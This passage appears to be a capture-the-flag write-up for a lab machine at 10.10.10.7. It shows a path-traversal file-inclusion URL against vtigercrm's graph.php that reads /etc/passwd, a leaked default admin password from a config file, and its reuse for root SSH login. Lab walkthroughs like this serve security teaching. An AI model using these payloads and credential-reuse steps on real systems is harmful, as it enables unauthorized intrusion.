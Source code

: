 The application is definitely vulnerable. Right click on the page and select View Page Source to format the page.

The file seems to have a bunch of usernames and passwords of which one is particularly interesting.

```text
# This is the default admin name used to allow an administrator to login to ARI bypassing all security.
# Change this to whatever you want, don't forget to change the ARI_ADMIN_PASSWORD as well
ARI_ADMIN_USERNAME=admin# This is the default admin password to allow an administrator to login to ARI bypassing all security.
# Change this to a secure password.
ARI_ADMIN_PASSWORD=jEhdIekWmdjE
```

Let’s try to use the above credentials to SSH into the admin account.

```text
ssh admin@10.10.10.7
```

It doesn’t work. To narrow down the number of things we should try, let’s use the LFI vulnerability to get the list of users on the machine.

```text
https://10.10.10.7//vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action
```

After filtering through the results, these are the ones I can use.

```text
root:x:0:0:root:/root:/bin/bash                                                                                                                                                
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash                                                                                                                            
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash                                                                                                                        
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash                                                                                                               
spamfilter:x:500:500::/home/spamfilter:/bin/bash                                                                                                                               
fanis:x:501:501::/home/fanis:/bin/bash
```

Let’s try SSH-ing into the root account with the credentials we found above.

```text
ssh root@10.10.10.7
```

It worked!

![](../images/max/651/1*g7i14OVF8Rp-c0r_dGVMlw.png)
